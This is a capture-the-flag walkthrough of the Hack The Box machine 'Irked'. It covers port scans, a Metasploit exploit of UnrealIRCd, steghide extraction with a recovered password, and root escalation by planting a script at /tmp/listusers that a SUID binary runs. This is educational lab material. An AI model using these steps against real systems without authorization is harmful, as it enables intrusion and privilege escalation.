

# [Irked](https://app.hackthebox.com/machines/irked)


```bash
nmap -sT -p- --min-rate 10000 10.10.10.117
```


I also do, rustscan and extract this open ports.


After we see open ports, let's do nmap scan for open ports.

```bash
nmap -sC -sV -p 22,80,1111,6697,8067,65534 10.10.10.117
```


From here, I see that for IRC (Internet Relay Chat), UncrealIRCd software is used.

Let's search exploit for this IRC software on msfconsole.

I find exploit and use this exploit against my target.


When, I try to read 'user.txt' file, I see that I don't have permission to read this file.


On Documents folder, I find .backup file, reead this,


I download image(irked.jpg) from http server. Then try to extract data from this image.

I use steghide tool for this and use the password that I find on .backup file.


```bash
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
```


I spawned a shell, then switch to 'djmardov' user via password of his.


user.txt


For privesc, I search for SUID files,

```bash
find / -type f -perm /4000 2>/dev/null
```



Here, we have 'viewuser' file. Let's run this file.


It says that there is not '/tmp/listusers' script, let's add malicious script (to read root.txt) here.

```bash
echo "cat /root/root.txt" > /tmp/listusers
chmod +x /tmp/listusers  #give execution privilege
```

While executing `viewuser binary`, it will execute our malicious script and read root.txt file.


root.txt 

